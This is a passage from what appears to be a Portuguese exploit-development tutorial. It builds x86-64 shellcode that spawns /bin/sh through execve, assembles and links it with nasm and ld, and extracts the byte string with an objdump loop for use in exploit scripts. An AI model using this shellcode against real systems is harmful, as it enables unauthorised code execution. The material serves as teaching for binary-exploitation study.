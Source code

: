 `$ cat shell.asm`
```assembly
global _start

section .text

_start:

    xor    rdx, rdx             ; Zerando o registrador RDX
    mov    qword rbx, '//bin/sh'; Inserindo o comando //bin/sh em RBX
    shr    rbx, 8               ; Shift Right de 8 bits em RBX para limpar a / extra
    push   rbx                  ; empurrando RBX para a Stack
    
    mov    rdi, rsp             ; Voltando o /bin/sh para RDI (argumento 1)
    push   rdx                  ; Enviando o NULL para a pilha
    push   rdi                  ; Enviando /bin/sh para a pilha
    mov    rsi, rsp             ; Movendo ["/bin/sh", 0] para RSI (argumento 2)
    mov    rax, 59              ; Movendo para RAX o valor de execve
    syscall                     ; Chamando a função
```

Pode-se "Assemblar" o script com o `nasm` e criar um objeto.

```bash
$ nasm -f elf64 shell.asm 
```

E em seguida fazer o *link* do objeto para um executável.

```bash
$ ld shell.o -o shell
```

O resultado de toda esa operação, é um binário executável que chama o programa `/bin/sh` como pode ser visto na imagem abaixo:

![Exploit executável criado com Assembly](/img/std/linbof/shell-exec-asm.png)

Assim como no *msfvenom*, também é possível transformar este executável numa linha de bytes para uso em scripts python, através do `objdump`, auxiliado de um `shell script` conforme abaixo:

```bash
$ for i in $(objdump -d -M intel shell | grep '^ ' | cut -f2); do echo -n '\\x'$i; done
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\xb8\x3b\x00\x00\x00\x0f\x05  
```

Com o entendimento da criação de um exploit executável, pode-se seguir adiante com a exploração de binários.

Na próxima parte deste estudo, iremos iniciar de fato a exploração do primeiro binário.
